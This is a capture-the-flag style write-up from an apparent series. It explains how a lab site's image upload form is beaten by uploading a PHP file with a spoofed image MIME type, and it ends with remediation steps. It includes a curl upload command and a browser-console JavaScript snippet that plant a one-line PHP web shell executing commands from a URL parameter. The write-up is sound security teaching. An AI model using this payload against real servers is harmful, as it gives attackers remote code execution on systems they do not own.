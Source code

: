 # Breach: Arbitrary File Upload via MIME Type Spoofing

## Discovery & Exploit

The site includes a file upload form which claims to only accept `.jpg` images.

We attempted uploading various file types, and eventually tried uploading a `.php` file while spoofing the MIME type as `image/jpeg`.

Using `curl`, we submitted the following request:

```
curl -F "uploaded=@shell.php;type=image/jpeg" -F "Upload=Upload" http://192.168.1.101/?page=upload
```

The server did not perform backend validation of file contents or extension, and the file was successfully uploaded and interpreted as PHP.

Upon execution of the uploaded script, the server responded with:

``The flag is: [actual flag value]``

To simplify the process, we wrote a JavaScript snippet that replicates the upload directly from the browser console. This eliminates the need for external tools like `curl`.

> You can run the following script directly in the browser's developer console:

```javascript
// upload-image.js
const formData = new FormData();
formData.append("Upload", "Upload");
formData.append("uploaded", new File(["<?php echo shell_exec($_GET['cmd']); ?>"], "shell.php", { type: "image/jpeg" }));

fetch("http://192.168.1.101/?page=upload", {
  method: "POST",
  body: formData
}).then(res => res.text()).then(html => console.log("Uploaded. Check server response or path."));
```

## Vulnerability Details

This is a classic case of **unrestricted file upload**, where the server:

- Accepts a file based on MIME type or extension alone (client-side enforced)
- Fails to inspect or validate the file contents on the backend
- Stores and executes files in a web-accessible location

Combined, these flaws allow an attacker to upload a **malicious PHP script** under the guise of a `.jpg`, leading to **remote code execution** and full system compromise.

References:

- https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
- https://portswigger.net/web-security/file-upload

## Remediation

1. Always validate file content types on the server side.
2. Never trust the MIME type or file extension provided by the client.
3. Store uploads outside of the web root when possible.
4. Rename uploaded files to prevent code execution.
5. Disallow executable file types entirely (e.g., `.php`, `.exe`, `.js`, `.jsp`).
6. Set appropriate Content-Disposition headers and file permissions.

---

<table width="100%">
  <tr>
    <td align="left"><a href="../../Breach13_PasswordOnlyAuthBypass/Ressources/writeup.md">← Previous: Breach13</a></td>
    <td align="center"><a href="../../README.md">↑ Back to README</a></td>
    <td align="right">Finish</td>
  </tr>
</table>
